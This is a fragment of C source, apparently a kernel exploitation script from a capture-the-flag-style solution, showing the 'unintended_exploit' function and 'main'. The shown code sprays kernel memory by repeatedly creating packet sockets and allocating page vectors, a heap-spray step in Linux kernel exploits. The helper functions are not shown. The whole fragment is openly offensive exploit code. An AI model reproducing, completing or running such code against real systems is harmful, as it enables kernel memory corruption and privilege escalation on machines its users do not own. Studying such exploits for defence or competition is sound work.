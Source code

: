 ```c
}

void unintended_exploit(void)
{
    int errno;
    prepare_pgv_system();

    for (int i = 0; i < 1000; i++) {
        printf("[*] No.%d times\n", i);
        fflush(stdout);
        if ((errno = create_pgv_socket(i)) < 0) {
            printf(ERROR_MSG("[x] Failed to allocate socket: ") "%d\n", i);
            err_exit("FAILED to allocate socket!");
        }

        if ((errno = alloc_page(i, 0x1000 * 64, 64)) < 0) {
            printf(ERROR_MSG("[x] Failed to alloc pages on socket: ")"%d\n", i);
            err_exit("FAILED to allocate pages!");
        }
        puts("Done.");
        
        fflush(stdout);
        //sleep(1);
    }

    puts("Done!?");
}

int main(int argc, char **argv, char **envp)
{
    banner();
    unintended_exploit();
    return 0;
}
```
